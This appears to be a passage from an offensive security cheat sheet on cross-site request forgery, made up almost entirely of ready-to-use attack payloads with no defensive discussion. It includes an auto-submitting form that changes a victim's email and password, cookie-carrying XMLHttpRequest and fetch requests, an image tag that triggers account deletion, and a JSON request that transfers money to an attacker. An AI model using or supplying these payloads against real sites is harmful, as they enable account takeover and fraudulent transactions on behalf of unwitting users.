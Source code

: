 ### CSRF Exploitation

**Basic CSRF POC (Proof of Concept):**

```html
<!-- csrf_poc.html -->
<!DOCTYPE html>
<html>
<head><title>CSRF POC</title></head>
<body>
  <h1>Click anywhere to continue</h1>
  <form id="csrf-form" action="http://target.com/settings" method="POST">
    <input type="hidden" name="email" value="attacker@evil.com">
    <input type="hidden" name="password" value="hacked123">
  </form>
  <script>
    document.getElementById('csrf-form').submit();
  </script>
</body>
</html>
```

**Advanced CSRF techniques:**

```html
<!-- Auto-submit with XMLHttpRequest (bypasses referrer check if misconfigured) -->
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'http://target.com/settings', true);
xhr.withCredentials = true;  // Send cookies
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('email=attacker@evil.com');
</script>

<!-- Using fetch API -->
<script>
fetch('http://target.com/settings', {
    method: 'POST',
    credentials: 'include',  // Send cookies
    headers: {'Content-Type': 'application/x-www-form-urlencoded'},
    body: 'email=attacker@evil.com'
});
</script>

<!-- Image-based CSRF (GET request) -->
<img src="http://target.com/delete-account?confirm=yes">

<!-- JSON CSRF -->
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'http://target.com/api/transfer', true);
xhr.withCredentials = true;
xhr.setRequestHeader('Content-Type', 'application/json');
xhr.send(JSON.stringify({to: 'attacker', amount: 10000}));
</script>
```
